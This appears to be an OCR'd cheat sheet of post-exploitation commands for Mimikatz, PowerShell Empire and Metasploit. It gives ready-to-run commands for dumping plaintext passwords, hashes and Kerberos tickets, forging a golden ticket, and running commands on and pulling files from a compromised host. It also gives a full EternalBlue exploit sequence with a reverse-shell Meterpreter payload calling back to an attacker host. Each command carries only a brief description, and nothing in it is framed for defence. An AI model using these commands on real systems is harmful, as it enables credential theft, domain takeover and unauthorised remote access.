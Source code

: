 ### 1. Mimikatz Commands
Mimikatz is a tool for extracting credentials from Windows systems. Here are some examples:

#### Extract Logon Passwords
Invoke-Mimikatz -Command '"privilege::debug" "sekurlsa::logonpasswords"'
- What it does: Dumps plaintext passwords, hashes, and Kerberos tickets from memory.

#### Extract Kerberos Tickets
Invoke-Mimikatz -Command '"privilege::debug" "kerberos::list"'
- What it does: Lists Kerberos tickets stored in memory.

#### Golden Ticket Attack
Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:example.com /sid:S-1-5-21-123456789-1234567890-123456789 /krbtgt:hash /ticket:golden.kirbi"'
- What it does: Creates a "golden ticket" for persistent domain access.

---

### 2. PowerShell Empire Commands
Empire is a post-exploitation framework for PowerShell. Here are some examples:

#### Run a Shell Command
shell whoami
- What it does: Executes a command on the target system (e.g., whoami to check the current user).

#### Download a File
download C:\path\to\file.txt
- What it does: Downloads a file from the target system.

#### Upload a File
upload C:\local\file.txt C:\remote\path\file.txt
- What it does: Uploads a file to the target system.

---

### 3. Metasploit Commands
Metasploit is a penetration testing framework. Here are some examples:

#### Exploit a Vulnerability
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 192.168.1.100
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.1.1
exploit
- What it does: Exploits the EternalBlue vulnerability to gain a Meterpreter shell.

#### Meterpreter Shell Commands
meterpreter > sysinfo
meterpreter > shell
meterpreter > download C:\path\to\file.txt
- What it does: Gathers system info, opens a shell, and downloads files.

---